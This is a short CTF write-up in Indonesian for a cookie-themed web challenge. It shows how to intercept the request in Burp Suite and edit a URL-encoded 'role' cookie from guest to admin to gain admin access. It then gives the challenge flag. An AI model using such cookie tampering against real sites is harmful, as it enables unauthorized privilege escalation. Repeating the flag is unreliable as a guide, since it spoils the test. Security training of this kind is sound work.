 ## Deskripsi:
Kamu cuma dikasih kue biasa? Bosen. Upgrade kue-mu jadi kue sultan dan lihat apa yang bisa kamu lakukan! (Jangan makan beneran ya )

#### Author : Rafly Permana

## Solusi
buka burpsuite, pada request header terdapat cookie Cookie: admin=%7B%22role%22%3A%22admin%22%7D; user=%7B%22role%22%3A%22guest%22%7D
ubah role guest menjadi admin Cookie: admin=%7B%22role%22%3A%22admin%22%7D; user=%7B%22role%22%3A%22admin%22%7D

## flag:
IDN_CTF{Y0u_@rE_TH@_C00K|e_M@st$r}
